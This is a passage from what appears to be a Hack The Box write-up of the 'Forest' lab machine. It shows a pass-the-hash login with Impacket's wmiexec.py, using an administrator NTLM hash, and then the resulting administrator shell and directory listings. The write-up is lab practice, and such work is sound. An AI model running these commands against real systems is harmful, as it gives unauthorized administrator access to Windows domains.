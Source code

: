 ```console
[*] Cleaning up... 
```

Impacket really is the MVP of this box. I spent some time trying to crack the hash to no avail. In googling around I found that I [didn't even necessarily need to do so](https://blog.ropnop.com/practical-usage-of-ntlm-hashes/#pth-toolkit-and-impacket), `wmiexec.py` supports authenticating with just a hash:


```console
root@discovery:~/htb/forest# python3 /root/tools/impacket/examples/wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
htb\administrator

C:\>pwd
'pwd' is not recognized as an internal or external command,
operable program or batch file.

C:\>dir
 Volume in drive C has no label.
 Volume Serial Number is E8B0-D68E

 Directory of C:\

09/20/2019  12:18 PM    <DIR>          PerfLogs
09/22/2019  03:56 PM    <DIR>          Program Files
11/20/2016  06:36 PM    <DIR>          Program Files (x86)
09/22/2019  03:02 PM    <DIR>          Users
02/22/2020  01:49 PM    <DIR>          Windows
               0 File(s)              0 bytes
               5 Dir(s)  31,115,538,432 bytes free

C:\>cd Users
C:\Users>dir
 Volume in drive C has no label.
 Volume Serial Number is E8B0-D68E

 Directory of C:\Users

09/22/2019  03:02 PM    <DIR>          .
09/22/2019  03:02 PM    <DIR>          ..
09/18/2019  09:09 AM    <DIR>          Administrator
11/20/2016  06:39 PM    <DIR>          Public
09/22/2019  02:29 PM    <DIR>          sebastien
09/22/2019  03:02 PM    <DIR>          svc-alfresco
               0 File(s)              0 bytes
               6 Dir(s)  31,115,538,432 bytes free

C:\Users>cd Administrator
C:\Users\Administrator>dir
 Volume in drive C has no label.
 Volume Serial Number is E8B0-D68E

 Directory of C:\Users\Administrator

09/18/2019  09:09 AM    <DIR>          .
09/18/2019  09:09 AM    <DIR>          ..
09/20/2019  03:04 PM    <DIR>          Contacts
```